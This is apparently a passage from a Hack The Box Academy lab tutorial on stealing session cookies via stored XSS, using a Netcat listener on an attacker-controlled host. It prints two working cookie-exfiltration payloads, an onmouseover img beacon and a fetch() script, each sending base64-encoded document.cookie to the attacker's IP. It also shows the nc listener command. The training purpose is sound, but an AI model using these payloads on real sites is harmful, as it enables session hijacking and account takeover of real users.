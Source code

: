 ***

### Obtaining session cookies via XSS (Netcat edition)

Instead of a cookie-logging script, we could have also used the venerable Netcat tool.

Let us try that as well for completeness's sake.

Before we simulate the attack, let us place the below payload in the _Country_ field of Ela Stienen's profile and click "Save." There are no specific requirements for the payload. We just used a less common and a bit more advanced one since you may be required to do the same for evasion purposes.

Code: javascript

```javascript
<h1 onmouseover='document.write(`<img src="http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}">`)'>test</h1>
```

Let us also instruct Netcat to listen on port 8000 as follows.

&#x20; Cross-Site Scripting (XSS)

```shell-session
root@htb[/htb]$ nc -nlvp 8000
listening on [any] 8000 ...
```

Open a `New Private Window` and navigate to `http://xss.htb.net/profile?email=ela.stienen@example.com`, simulating what the victim would do. We remind you that the above is an attacker-controlled public profile hosting a cookie-stealing payload (leveraging the stored XSS vulnerability we previously identified).

By the time you hold your mouse over "test," you should now see the below in your attacking machine.

![image](https://academy.hackthebox.com/storage/modules/153/54.png)

Please note that the cookie is a Base64 value because we used the `btoa()` function, which will base64 encode the cookie's value. We can decode it using `atob("b64_string")` in the Dev Console of Web Developer Tools, as follows.

![image](https://academy.hackthebox.com/storage/modules/153/55.png)

You can now use this stolen cookie to hijack the victim's session!

We don't necessarily have to use the `window.location()` object that causes victims to get redirected. We can use `fetch()`, which can fetch data (cookies) and send it to our server without any redirects. This is a stealthier way.

Find an example of such a payload below.

Code: javascript

```javascript
<script>fetch(`http://<VPN/TUN Adapter IP>:8000?cookie=${btoa(document.cookie)}`)</script>
```


